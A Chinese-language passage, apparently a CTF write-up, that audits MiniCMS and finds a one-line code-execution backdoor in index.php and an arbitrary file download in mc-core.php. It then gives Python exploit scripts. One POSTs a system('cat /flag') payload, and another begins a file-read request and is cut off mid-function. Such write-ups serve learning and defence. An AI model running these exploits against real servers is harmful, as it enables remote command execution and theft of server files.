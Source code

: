 ### 题目漏洞挖掘

审计工具结果：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-4c883ba12ebc27c271714e0ff3a6ec603ab39dda.png)  
我们只需要关注可以Getshell和读取文件的地方。

#### 漏洞点1：`minicms\index.php`

首页存在一句话代码执行。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-877bb64d29201fd6a081efd46e47e4c25b1070de.png)

#### 漏洞点2：`minicms\mc-files\mc-core.php`

文件下载功能存在任意文件下载漏洞。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-2c19f2ced163b2395113e722f61ec972fbdd476f.png)

### EXP编写

#### EXP1：首页代码执行

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
}
url = f"http://{HOST}:{PORT}"
data = {"1": "system('cat /flag');"}

def exp_1():
    ans = requests.post(url=url, headers=header, data=data)
    print(ans.text)

exp_1()
```

#### EXP2：任意文件读取

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
}
url = f"http://{HOST}:{PORT}"

def exp_2(poc="/mc-files/mc-core.php?file=/flag"):
```